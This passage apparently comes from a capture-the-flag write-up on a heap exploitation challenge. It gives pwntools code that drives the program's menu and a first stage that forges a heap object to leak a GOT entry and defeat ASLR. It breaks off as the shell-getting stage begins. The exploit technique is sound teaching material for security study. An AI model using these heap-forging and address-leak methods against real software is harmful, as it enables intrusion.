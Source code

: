 ```python
  sh.sendlineafter('.\n', s)
  sh.sendlineafter('?\n', '-1')

def destroySword(i):
  sh.sendlineafter('Quit.\n', '4')
  sh.sendlineafter('?\n', str(i))

def useSword(i):
  sh.sendlineafter('Quit.\n', '6')
  sh.sendlineafter('?\n', str(i))

def mergeSword(i1, i2):
  sh.sendlineafter('Quit.\n', '2')
  sh.sendlineafter('?\n', str(i1))
  sh.sendlineafter('?\n', str(i2))
```

Now, we can start thinking about our exploit plan. Basically, the exploit consist of two stages.

Stage one, we need to leak the `libc` base address that is different each time due to `aslr`. The way we are going to do this is by printing out one of the GOT entries that contains a libc address. The reason that we are leaking the GOT entry is because the location of the GOT is always the same even when `aslr` is enabled.

By reading the source code of the program, we know that the `malloc` is being used instead of `calloc` and we can alocate either a `sword_s` object or a char array onto the heap. For the char array, we have full control over the content of the heap chunk (although there have to be a null byte at the end). Because of these two conditions, we can forge our own `sword_s` object on the heap. If we set `sword_name` to point to a GOT entry and leave `use_sword` pointing to `hoo`, we will be able to leak out the libc address. Here is how this stage looks like in code:

```python
read_GOT = 0x602040
read_offset = 0x004007b0

forgeSword()
hardenSword(0, 'a'*32)
destroySword(0)

forgeSword()
hardenSword(0, ('a'*8)+p64(read_GOT)[:-1])
destroySword(0)

forgeSword()
forgeSword()
useSword(0)

libc_base = u64(sh.recvuntil('.....')[12:-5].ljust(8, '\x00')) - read_offset + 3183968
```

Now with the libc base address in hand, we can move on to stage two which is to find somewhere to jump to that will give us a shell. We can use the tool [one_gadget](https://github.com/david942j/one_gadget) do just that:
